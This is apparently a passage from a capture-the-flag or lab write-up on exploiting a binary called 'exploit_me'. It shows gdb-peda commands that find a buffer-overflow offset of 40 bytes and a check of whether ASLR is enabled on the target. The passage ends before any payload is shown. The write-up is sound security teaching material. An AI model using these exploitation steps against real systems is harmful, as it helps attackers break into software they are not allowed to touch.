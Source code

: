 Let's analyse the binary and find the offset for our payload. I will use `gdb-peda` for this:
```bash
gdb ./exploit_me
pattern create 50 pattern.txt
r < pattern.txt
```
![1941da9e0700322b59df9cd5dfb41845.png](./_resources/1941da9e0700322b59df9cd5dfb41845.png)
- I created a pattern and ran the binary using the pattern as input to find the offset that it takes to overwrite the `RSP` register
- By using the command below we can find the offset in `gdb` which will tell us that it is **40**
```bash
pattern offset "AA0AAFAAbA"
```
![a90b4ba0d4785ffa74d97e0d1808ae8a.png](./_resources/a90b4ba0d4785ffa74d97e0d1808ae8a.png)

Let's check to see if `ASLR` is enabled on the target machine:
```bash
cat /proc/sys/kernel/randomize_va_space # Output = 2
# 2 = Full randomization
# 1 = Conservative randomization
# 0 = No randomization
```
